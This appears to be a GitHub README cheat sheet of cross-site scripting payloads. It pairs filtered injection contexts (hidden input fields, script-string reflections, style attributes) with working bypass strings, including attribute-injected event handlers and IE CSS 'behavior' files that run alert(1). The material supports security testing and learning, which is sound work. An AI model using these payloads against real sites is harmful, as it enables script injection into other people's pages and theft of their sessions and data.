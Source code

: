 # About XSS Problems

This is a public cheat sheet to help you solve problems you might encounter while trying to XSS a target, you can contribute by telling me your problems or solutions. If you find a solution, make sure they work in one of the following browsers: Chrome, Firefox, IE/Edge (IE version 9 or above), Safari and Opera. This Cheat Sheet is never finished, so I might add more over time.

Extra solutions to solved problems are also welcome.

---

# Problems and Solutions

## Hidden Input fields

📝 **Problem**

```
<input type="hidden" value="[injection-point]">
```

Greater than (>) and Less than (<) are properly encoded, you can only add attributes to the input tag.

💡 **Solution(s):**

```
'"/autofocus/onfocus='alert(1)'x=
```

**Note:**

This only works if the input element is in the following form.

```
<input value="[injection-point]" type="hidden">
```

It's not very common but it does happen.

By [me](https://twitter.com/Karel_Origin).

---

```
'"/onclick='alert(1)'/accesskey='X'
```

**Note:**

Requires you to press ALT+SHIFT+X on Windows/Linux or CTRL+ALT+X on OS X. (Only works in Firefox.)

By [PortSwigger](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html).

---

## Multiple reflections in a script context

📝 **Problem**

```
x = "[injection-point]"
y = "[injection-point]"
```

Double quotes are properly encoded, it's only possible to escape the string with %0A and escape quotes using \

**Note:**

The same parameter is used for both injection points.

Injecting "1" in parameter "x" will result in:

```
x = "1"
y = "1"
```

💡 **Solution(s):**

There is no solution to this problem yet.

Feel free to [contribute](https://github.com/karelorigin/XSS-Problems/issues/new)!

---

## CSS Injection to XSS

📝 **Problem**

```
<input style="[injection-point]">
```

**Note:**

Double quotes are properly encoded.


💡 **Solution(s):**

```
behavior: url(xss.htc)
```

xss.htc:
```
<script>alert(1)</script>
```

**Note:**

xss.htc needs to be served as `text/x-component` and only works in docmode 9 which makes this payload pretty useless

💡

```
behavior: url(xss.txt)
```

xss.txt:
```
<scriptlet>  
    <implements type="behavior"/>
    <script>alert(1)</script>
</scriptlet>  
```

**Note:**

This doesn't work Cross-Domain, which means that you need to be able to upload a file to the current domain. The file needs to be served with one of the following Content-Types.

1. text/html
1. text/plain
1. image/*
1. video/mpeg
1. video/avi

This technique won't work if the site uses the `X-Content-Type-Options: nosniff` or `Content-Disposition: attachment` header.

By [Filedescriptor](http://blog.innerht.ml/cascading-style-scripting/).

---

# Contribute

That's it! feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help others with their XSS problems.
